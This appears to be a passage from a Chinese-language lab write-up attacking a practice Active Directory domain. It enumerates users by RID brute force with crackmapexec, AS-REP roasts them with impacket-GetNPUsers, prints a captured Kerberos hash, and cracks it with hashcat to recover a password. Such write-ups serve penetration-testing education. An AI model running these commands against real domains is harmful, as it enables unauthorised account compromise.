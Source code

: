 ### 4.1. 相对标识符（RID）暴力枚举出域内的其他用户

```PowerShell
crackmapexec smb SOUPEDECODE.LOCAL -u 'charlie' -p 'charlie' --rid-brute > rid\_bruteforce.txt

cat rid\_bruteforce | grep  'SidTypeUser' | cut -d '\' -f2 | cut -d ' ' -f1  > domain\_users.txt
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/21.DC02.001.png)

### 4.2. 枚举禁用了 Kerberos 预认证的用户

利用impacket-GetNPUsers 枚举禁用 Kerberos 预认证的用户以获取可以用于 ASREPRoasting 攻击的用户

```
禁用预认证的用户会向域控制器发送不包含加密的身份验证请求，因此攻击者可以捕获 AS-REP 响应并进行密码破解。
```


在这之前需要先将时间与域时间对齐



```PowerShell
timedatectl set-ntp off
rdate -n  192.168.56.126
impacket-GetNPUsers  SOUPEDECODE.LOCAL/  -dc-ip 192.168.56.126 -no-pass -usersfile domain\_users.txt | grep -v  '[-]'
```


```PowerShell
impacket-GetNPUsers  SOUPEDECODE.LOCAL/  -dc-ip 192.168.56.126 -no-pass -usersfile domain\_users.txt | grep -v  '[-]'

$krb5asrep$23$zximena448@SOUPEDECODE.LOCAL:9db51e4c05b23c0562b08157315f848a$f5b6d13bb1d2dcd2c0f56218183d0c552a69ccde25bea3b39dc4f82002b6a42d05b8753a81230a65f62f6b091be00057d2a2d106a9d9c4e3ac99a70b3071cd822bb3536bf51cb9f94b3b7217594b2fff7baf7a4b195651753b7c9b87148f424f9255eafea3565df4dde77b2abeaa649f4b2b6877044936c66419aec3db1b4a4e066df447176c63f01de9a9ef41b8b846f3ba870a4237e50560dbbeb84d4b0f82afca660940e70ac6693bf7c82ffcba601384a110498dd4b7e5f7b4ca761830c8ff04b18dea82abf62c62bd00ab9948561b4ff09daf864b94745170d4239da474d8d016f72bb84ec0efa4147dc7eb6e4c327b8e9b0308
```
### 4.3. 暴力破解AS-REP响应密码hash

我们获取到zximena448用户的 AS-REP 响应的加密密码哈希

它包含了目标用户的 Kerberos 密码

我们可以尝试利用hashcat对其进行破解以获取用户密码

```PowerShell
hashcat -a 0 -m 18200 as-rep.txt rockyou.txt
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/21.DC02.002.png)

成功爆破出密码internet

## 5. Bloodhound收集域内信息
